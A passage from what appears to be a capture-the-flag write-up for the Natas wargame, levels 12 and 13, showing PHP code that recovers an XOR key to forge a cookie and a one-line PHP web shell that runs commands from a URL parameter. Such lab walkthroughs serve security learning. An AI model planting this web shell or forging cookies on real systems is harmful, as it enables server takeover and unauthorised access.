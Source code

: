 So let's write a similar php code to do the same encypting but changing the key with json encoded version of the **defaultdata** array and encrypt the value of **data** cookie.

```php
<?php

function xor_encrypt($in) {
    $key = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo xor_encrypt(base64_decode("HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg"))
?>
```

![alt text](NatasScreenshots/12.1.png)

As you can see, it outputs 4 characters that are repeated multiple times which is expected because initialy it used modulo operation to go through the key letters multiple times. Anyway, the key is these 4 characters.

Now, we change our encryption function with the actual key and encrypt the json encoded version of the desired array (which holds the value **yes** to the key **showpassword**) and of course code it in base64.

![alt text](NatasScreenshots/12.2.png)

Injecting that resulted string in **data** cookie and refreshing the page will give us the password.

![alt text](NatasScreenshots/12.3.png)

# Level 13

Going through the source code, what it does is that it take our uploaded file and change its name with a randomly generated one and then it saves it in **upload/** folder and even provides us its link.

Obviously, we are going to craft a web shell as an input which will allow us to inject commands and get output from teh web's server.

I googled for a simple one line php payload and settled with the following :

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```
